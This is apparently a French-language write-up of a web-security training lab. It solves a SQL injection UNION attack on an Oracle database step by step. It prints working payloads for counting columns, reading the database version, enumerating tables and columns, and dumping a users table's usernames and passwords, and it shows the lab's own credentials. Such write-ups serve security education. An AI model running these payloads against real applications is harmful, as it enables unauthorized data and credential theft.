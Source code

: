 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

```
'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--
```

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

```
'UNION SELECT banner,'a' FROM v$version--
```

La page retourne : `Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production`

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à **all_tables** et **all_tab_columns**

all_tables :
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm

all_tab_columns :
https://docs.oracle.com/cd/E18283_01/server.112/e17110/statviews_2103.htm

Au sein de all_tables, on voit la colonne **TABLE_NAME**, testons :
```
'UNION SELECT NULL,TABLE_NAME FROM all_tables--
````

Une table intéressante à l'appelation similaire au précédent lab apparait sous la page :

- USERS_TPVSXB

On peut tout d'abord essayer avec la colonne **COLUMN_NAME** indiquée dans la documentation sur all_tab_columns :

```
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_TPVSXB'--
```
On obtient les colonnes 

- PASSWORD_XVTDAX
- USERNAME_EZHTIK

```
'UNION SELECT PASSWORD_XVTDAX,USERNAME_EZHTIK FROM USERS_TPVSXB--
```

Comme prévu, on obtient le mot de passe et les username :

- 5p2yoeaye2wu5xhue4ku
- carlos
- di6qrfsx6ew91lvepigo
- wiener
- ******************** (mot de passe)
- administrator

Une fois le mot de passe obtenu, il suffit de se connecter en tant qu'administrateur pour terminer le lab.
